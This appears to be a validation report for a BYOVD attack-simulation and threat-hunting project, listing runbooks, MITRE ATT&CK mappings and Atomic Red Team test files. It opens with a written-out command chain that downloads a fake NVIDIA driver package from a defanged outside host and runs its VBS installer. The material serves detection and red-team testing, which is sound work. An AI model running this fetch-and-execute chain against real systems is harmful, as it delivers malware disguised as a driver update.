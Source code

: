 **Validation**: Package successfully recreates the complete attack chain:
```bash
curl -k -o "%TEMP%\nvidiadrivers.zip" https://api.smartdriverfix[.]cloud/nvidiadrivers-kp9s.update
&& powershell -Command "Expand-Archive -Force -Path '%TEMP%\nvidiadrivers.zip' -DestinationPath '%TEMP%\nvidiadrivers'"
&& wscript "%TEMP%\nvidiadrivers\install.vbs"
```

### Documentation Suite ✅

| Document | Lines | Status | Purpose |
|----------|-------|--------|---------|
| BYOVD_Threat_Hunting_Runbook.md | 1,200+ | ✅ **ENHANCED** Complete | **UPDATED** KQL queries with 7 hunt scenarios and 47+ TTPs |
| BYOVD_Attack_Simulation_Plan.md | 456 | ✅ Complete | Atomic Red Team test definitions |
| BYOVD_Operator_Manual.md | 645 | ✅ Complete | Complete operational guidance |
| BYOVD_Final_Validation_Report.md | This document | ✅ Complete | Project validation and capabilities |

### TTP Database ✅

**Primary Database**: `byovd_ttps.csv` (31 TTPs)  
**Extended Database**: `additional_byovd_ttps.csv` (10 additional TTPs)

**Total Coverage**: 47+ MITRE ATT&CK techniques mapped to enhanced BYOVD attacks with error handling

**Key Techniques Covered**:
- T1566.002: Phishing - Spearphishing Link
- T1105: Ingress Tool Transfer
- T1059.005: VBS Execution  
- T1068: Exploitation for Privilege Escalation
- T1562.001: Impair Defenses
- T1014: Rootkit capabilities
- T1553.005: Driver Signature Enforcement Bypass

### Atomic Red Team Integration ✅

**YAML Test Files**: 10 comprehensive test definitions

| Test File | MITRE ID | Complexity | Validation |
|-----------|----------|------------|------------|
| T1068_vulnerable_driver_loading.yaml | T1068 | High | ✅ Validated |
| T1059_005_vbs_driver_execution.yaml | T1059.005 | Medium | ✅ Validated |
| T1036_005_driver_masquerading.yaml | T1036.005 | Medium | ✅ Validated |
| T1105_ingress_tool_transfer.yaml | T1105 | Medium | ✅ Validated |
| T1070_004_file_deletion.yaml | T1070.004 | Low | ✅ Validated |
| T1553_005_dse_bypass.yaml | T1553.005 | High | ✅ Validated |
| T1562_001_security_process_termination.yaml | T1562.001 | High | ✅ Validated |
| T1562_002_etw_disruption.yaml | T1562.002 | High | ✅ Validated |
| T1003_001_lsass_memory_access.yaml | T1003.001 | High | ✅ Validated |
| T1566_002_fake_driver_update_social_engineering.yaml | T1566.002 | Medium | ✅ Validated |
